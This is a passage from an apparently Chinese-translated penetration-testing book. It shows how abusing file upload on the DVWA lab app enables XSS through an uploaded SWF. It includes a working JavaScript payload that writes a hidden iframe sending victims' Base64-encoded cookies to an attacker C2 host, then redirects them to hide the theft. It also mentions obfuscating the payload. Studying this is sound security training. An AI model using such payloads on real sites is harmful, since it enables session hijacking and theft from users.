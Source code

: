 要测试 POC，我们可以调用以下 URL 并观察浏览器行为：

```
http://dvwa.app.internal/hackable/uploads/xssproject.swf?js=alert(document.cookie);
```

我们可以使用此 URL 对易受攻击应用程序的用户执行 XSS 攻击。我们可以注入更有用的 JavaScript 代码，例如**浏览器利用框架**（**BeEF**）钩子，而不是弹出窗口来证明漏洞的存在。我们将在第九章 *实用客户端攻击*中讨论此工具。

以下图显示了 JavaScript 代码被恶意软件（`xssproject.swf`）成功注入：

![更多文件上传问题](img/B09238_05_12.jpg)

图 5.12：滥用文件上传功能后的 XSS 攻击

对于利用漏洞的更实际应用，我们可以尝试悄悄地外泄 cookie 数据，并可能使用 `PHPSESSID` 值在我们自己的浏览器会话中冒充用户。我们可以获取 cookie 数据，使用 JavaScript 的 `btoa()` 函数对其进行 Base64 编码，并将所有数据发送到我们的 C2 服务器。一旦收集到 cookie 数据，我们可以强制重定向到主应用程序页面，以避免引起怀疑。数据外泄部分对受害者是透明的。

此有效载荷将使用 `document` 对象将新的 HTML 代码写入**文档对象模型**（**DOM**）。HTML 代码是一个隐藏的 `iframe` 元素，它会向我们的命令和控制基础设施发出 HTTP 请求。HTTP 请求将在请求 URL 中包含受害者的 cookies，以 Base64 编码的形式，使我们能够远程捕获这些数据。最后一个函数将在 500 毫秒后重定向客户端到主页 `'/'`，以确保 `iframe` 有机会加载和外泄我们的数据。

我们的攻击代码将如下所示：

```
document.write("Loading**...<iframe style='display:none;' src='//c2.spider.ml/"+btoa(document.cookie)+"'></iframe>**");
setTimeout(function(){window.location.href='/';},500);
```

前面的 JavaScript 代码将被压缩为一行，用分号分隔，因为我们必须使用 URL 来注入此代码，所以我们还必须对字符进行 URL 编码，以确保在传输过程中没有问题。Burp 的解码器模块可以用于编码和混淆负载：
